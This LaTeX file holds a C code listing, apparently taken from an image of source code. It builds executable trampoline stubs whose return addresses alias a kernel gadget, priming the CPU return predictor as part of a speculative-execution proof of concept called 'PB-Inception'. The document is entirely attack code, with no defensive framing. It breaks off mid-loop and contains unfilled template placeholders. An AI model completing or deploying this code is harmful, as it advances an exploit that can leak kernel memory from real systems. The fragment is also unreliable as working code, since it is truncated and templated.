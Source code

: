 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{lstlisting}[language=C, caption={Return‑address aliasing trampoline builder: JIT‑creates RX call stubs whose return addresses share \texttt{ALIAS\_MASK} with the kernel gadget, populating \texttt{\_\_alias\_tbl[]} to bias the return predictor for the TTE cascade.}, label={lst:pbinc-tramp}]
#define _GNU_SOURCE
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <errno.h>

// Trampoline because: A small piece of code whose only purpose
// is to jump or call into another piece of code -> often while
// managing control flow

// Total number of desired trampolines for return-predictor pressure
#define TRAMPOLINE_COUNT ${TRAMP_COUNT}

// Max number of slots we'll scan to find alias-matching trampolines
#define MAX_SEARCH_ATTEMPTS 4096

// System page size (used to calculate region allocation)
#define PAGE_SIZE 4096

// Size of memory to mmap for trampoline stubs
#define REGION_SIZE (PAGE_SIZE * MAX_SEARCH_ATTEMPTS)

// x86 opcodes
#define RET_OPCODE 0xC3   // ret
#define CALL_OPCODE 0xE8  // call rel32

// Externals patched/shared across PoC
extern uint64_t __pbinc_kernel_gadget_addr;    // Kernel gadget VA
extern uint64_t __alias_tbl[TRAMPOLINE_COUNT]; // Trampoline callsite entry points

// Allow override of alias mask (used to match gadget RA bits)
#ifndef ALIAS_MASK
#define ALIAS_MASK ${ALIAS_MASK}UL // Mask used to match low bits of return address
#endif

////////////////////////////////////////////////////////////////////////////////
// Builds a set of trampolines (CALLSITE stubs) where the return address
// (i.e. the address after the CALL) falls in the same predictor class
// as the kernel gadget. This is the key to PB-Inception predictor pressure.
////////////////////////////////////////////////////////////////////////////////
void *pbinc_create_trampolines(uint64_t gadget_addr) {
    // Allocate RWX memory region for executable trampolines
    uint8_t *region = mmap(NULL, REGION_SIZE, PROT_READ|PROT_WRITE|PROT_EXEC,
                           MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
    if (region == MAP_FAILED) {
        perror("mmap"); exit(1); // Bail if mapping fails
    }

    int found = 0; // Track how many aliasing trampolines we found
    for (int i = 0; i < REGION_SIZE - 16 && found < TRAMPOLINE_COUNT; i += 64) {
        uint8_t *tramp = region + i;


\end{lstlisting}
\end{document}
